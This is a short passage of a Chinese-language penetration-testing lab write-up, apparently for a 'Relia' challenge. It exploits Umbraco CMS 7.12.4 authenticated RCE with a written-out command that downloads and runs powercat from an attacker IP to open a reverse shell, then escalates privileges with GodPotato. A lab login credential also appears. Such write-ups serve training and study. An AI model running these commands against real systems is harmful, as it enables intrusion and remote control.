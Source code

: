 ![image-20250913211514856](./Challenge%202%20-%20Relia/image-20250913211514856.png)

[noraj/Umbraco-RCE：Umbraco CMS 7.12.4 - （已验证）远程代码执行 --- noraj/Umbraco-RCE: Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](./https://github.com/noraj/Umbraco-RCE)

可以成功命令执行

![image-20250913211755321](./Challenge%202%20-%20Relia/image-20250913211755321.png)

上传powercat.ps1，利用powercat反弹shell

```
python3 exploit.py -u mark@relia.com -p OathDeeplyReprieve91 -i "http://web02.relia.com:14080" -c powershell.exe -a "-NoProfile -Command IEX(New-Object System.Net.WebClient).DownloadString(' http://192.168.45.222:8000/powercat.ps1 '); powercat -c 192.168.45.222 -p 443 -e powershell"
```

`whoami /priv`存在`SeImpersonatePrivilege`权限，利用**[GodPotato](./https://github.com/BeichenDream/GodPotato)**提权

```
GodPotato-NET4.exe -cmd "cmd /c whoami"
```

![image-20250913213458392](./Challenge%202%20-%20Relia/image-20250913213458392.png)
